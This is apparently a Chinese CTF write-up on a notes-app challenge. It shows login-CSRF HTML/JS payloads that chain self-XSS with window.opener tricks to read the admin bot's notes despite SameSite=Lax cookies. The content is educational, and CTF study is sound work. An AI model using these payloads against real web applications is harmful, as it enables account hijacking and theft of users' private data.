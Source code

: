 ``` js
```

題目敘述有說這題的 admin bot 沒有對外連線的功能，所以增加了一些額外的難度（不過其實有開就是了，看 discord 好像開賽前加回去了）。

不過這點先不討論，先來討論其他的。

這題有 csrf token 來防止 csrf，但登入的部分沒有，所以可以用 csrf 來登入，就可以順利在 admin 上執行 XSS。

如果 same site cookie 沒設定的話，其實就 iframe 一下很容易，像這樣：

``` html
<iframe name=f onload=run() src="http://0.0.0.0:8080/notes"></iframe>
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  function run() {
    form.submit();
  }
</script>
```

先在頁面上面開好 iframe，裡面就會有 admin 的筆記，然後用 form csrf 一下，新開一個視窗出來。

接著只要在自己的帳號裡面弄出 XSS，用 `window.opener.frames['f'].document.body` 就可以拿到頁面的內容了， 雖然新開啟的頁面跟 window.opener 不同源，但因為跟 `window.opener.frames['f']` 同源所以沒差，一樣可以存取到。

不過這題的最大問題是 Chrome 預設的 default Lax，所以 iframe 不會帶 cookie，就沒辦法用了。

一個很直觀的解法是改用 `window.open` 來做，像這樣：

``` html
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  win = window.open('http://0.0.0.0:8080/notes')
  form.submit()
</script>
```

但最大的問題是，在新開的視窗中沒辦法用 `window.opener.win` 來存取到開啟的 window，因為跟 `window.opener` 不同源，所以不讓你存取上面的東西。

如果兩個新開的 window 彼此間不能溝通，這該怎麼辦呢？

想了一陣子之後，突然靈機一動：「那就直接把 `window.opener` 變成要拿的頁面不就好了？」

像這樣：

``` html
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  form.submit()
  location = 'http://0.0.0.0:8080/notes'
</script>
```
